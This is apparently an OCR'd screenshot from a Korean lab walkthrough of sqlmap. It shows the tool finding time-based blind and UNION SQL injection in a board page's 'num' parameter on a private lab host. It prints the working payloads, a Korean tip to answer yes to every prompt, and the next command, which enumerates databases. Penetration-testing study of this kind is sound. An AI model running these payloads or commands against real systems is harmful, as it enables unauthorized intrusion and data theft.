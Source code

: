 ```
[14:39:30] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'                                                                                         
[14:39:30] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:39:30] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[14:39:30] [INFO] testing 'Generic inline queries'
[14:39:30] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:39:30] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:39:30] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:39:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[14:39:50] [INFO] GET parameter 'num' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                                                           
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[14:40:01] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:40:01] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:40:02] [INFO] target URL appears to be UNION injectable with 11 columns
[14:40:02] [INFO] GET parameter 'num' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'num' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 99 HTTP(s) requests:
---
Parameter: num (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: num=1 AND (SELECT 1937 FROM (SELECT(SLEEP(5)))mvSW)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: num=-7367 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b7a7a71,0x4d5a4a437959714c74746f48517664794f6f4c734e7866545567667464654e726d5a5542464e5977,0x7178717071),NULL,NULL,NULL-- -
---
[14:40:03] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[14:40:03] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.16.10.20'                                                                                     

[*] ending @ 14:40:03 /2020-10-22/


```

y -> c -> 나오는거 다 y



##### DB 명 확인

root@kali-04:~# sqlmap -u "http://172.16.10.20/board/board_view.php?num=1" -p "num" --dbs

```
       ___
       __H__                                                                                   
 ___ ___["]_____ ___ ___  {1.4.9#stable}                                                       
|_ -| . [(]     | .'| . |                                                                      
|___|_  [)]_|_|_|__,|  _|                                                                      
      |_|V...       |_|   http://sqlmap.org                                                    

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:40:08 /2020-10-22/

```